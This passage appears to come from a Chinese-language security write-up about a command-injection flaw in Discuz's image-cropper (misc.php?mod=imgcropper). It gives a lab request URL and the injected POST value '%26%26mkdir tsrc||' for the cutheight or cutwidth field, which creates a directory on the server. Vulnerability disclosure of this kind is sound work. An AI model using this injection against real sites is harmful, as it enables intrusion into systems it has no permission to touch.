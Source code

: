 ```
http://192.168.188.143/discuz20140604/misc.php?mod=imgcropper&img=forum/201406/13/155944d557e0dtcdpouoad.jpg

```

然后修改POST数据包中cutheight或者cutwidth中的内容为“%26%26mkdir tsrc||”提交，就可以在discuz根目录下创建一个tsrc的目录。

修改输入包如下图所示：

![enter image description here](http://drops.javaweb.org/uploads/images/034b245774a0469f6e832e9a79f968d97ac87219.jpg)

提交后效果如下图所示：

![enter image description here](http://drops.javaweb.org/uploads/images/95b8601453383b0977a30f313e364e2cf977edba.jpg)